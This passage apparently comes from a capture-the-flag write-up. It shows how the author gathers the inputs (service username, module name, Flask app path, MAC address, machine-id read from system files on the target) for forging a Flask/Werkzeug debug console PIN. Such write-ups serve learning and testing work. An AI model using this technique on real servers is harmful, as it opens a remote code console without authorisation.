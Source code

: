 ```python
import hashlib
from itertools import chain
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052401235',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]
```

- Username as `www-data` is common for linux web services, although python can also be run by users as well. I had been trying combinations with both `www-data` as well as `runner`, as this account seemed like it might have been generated for the sole purpose of running a web server.
- Modname as `flask.app` is the default option provided by Hacktricks, but also we can see this in `app.py`, where it simply states `import flask`.
- `wsgi_app` was the hardest to find, as this variable is not well defined in the article, simply presented as Flask. Under `def enable_debug():` from app.py, we see the debug application referred to as `app.wsgi_app = DebuggedApplication(app.wsgi_app, True)`.
- `/app/venv/lib/python3.10/site-packages/flask/app.py` is given on the error page. 
Private Bits:
- When accessing `/sys/class/net/eth0/address`, we get id 00:50:56:b9:ce:53:

![eth0 address](Images/Address.png)

To convert into the private bit variable, we utilize python to print:
```python
>>> print(0x005056b9ce53)
345052401235
```
